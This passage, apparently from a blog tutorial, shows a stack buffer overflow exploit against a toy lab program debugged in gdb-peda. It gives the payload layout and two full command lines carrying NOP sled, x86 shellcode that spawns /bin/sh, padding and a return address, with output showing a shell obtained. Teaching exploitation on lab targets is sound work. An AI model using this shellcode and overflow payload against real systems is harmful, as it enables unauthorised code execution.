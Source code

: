 Are you convinced? Good. Now let's build our achievement on sound foundations!
{: .text-justify}

## EXPLOIT IN GDB

In order to avoid the unstable memory chunk, we will construct our exploit as follows: **<span style="color:pink">NOPSled</span>**(_100 bytes_) + **<span style="color:red">Shellcode</span>**(_23 bytes_) + **<span style="color:green">padding</span>**(_7 bytes_) + **<span style="color:blue">Fake Return Address</span>**(_4 bytes_).
{: .text-justify}

```shell
gdb-peda$ r $(python -c 'print "\x90"*100+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"+"a"*17+"\x80\xd5\xff\xff"')
Starting program: /root/bfpoc $(python -c 'print "\x90"*100+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"+"a"*17+"\x80\xd5\xff\xff"')
[0] main() Start here.
[1] Calling funcMyLife().
[2] funcMyLife() Start here.
[3] Variable buffer declaration.
[4] Calling strcpy(). <= [Vulnerability]
Message : ▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒1▒Ph//shh/bin▒▒PS▒▒
 ̀aaaaaaaaaaaaaaaaa▒▒▒▒
[5] funcMyLife() end at the next instruction (ret).
process 10700 is executing new program: /bin/dash
$ ls
Bureau Public bfpoc.c request.txt bfpoc
$ [Inferior 2 (process 10703) exited normally]
Warning: not running or target is remote
```
TADA! No Magic but a superb shell!
{: .text-justify}

Be careful, obtaining a shell is not systematic in **gdb**. It is possible to have a simple indication that a child process has been started but without having a prompt _and it is not a failure for all that_.
{: .text-justify}
{: .notice--warning}

## EXPLOIT IN GDB #2

But by the way, do you remember that we found another memory space in which we could inject our exploit? And yes, it is also possible to point our **<span style="color:blue">Fake Return Address</span>** to the placeholder for the argument passed to **funcMyLife(const char \*arg)**.
{: .text-justify}

Once again, we're going to aim for roughly the middle of our **<span style="color:pink">NOPSled</span>** , as it's good practice:
{: .text-justify}

```shell
gdb-peda$ r $(python -c 'print "\x90"*100+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"+"a"*17+"\x10\xd8\xff\xff"')
Starting program: /bin/dash $(python -c 'print "\x90"*100+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"+"a"*17+"\x10\xd8\xff\xff"')
/bin/dash: 0: Can't open ▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒1▒Ph//shh/bin▒▒PS▒▒
 ̀aaaaaaaaaaaaaaaaa▒▒▒
[Inferior 1 (process 10758) exited with code 0177]
Warning: not running or target is remote
```
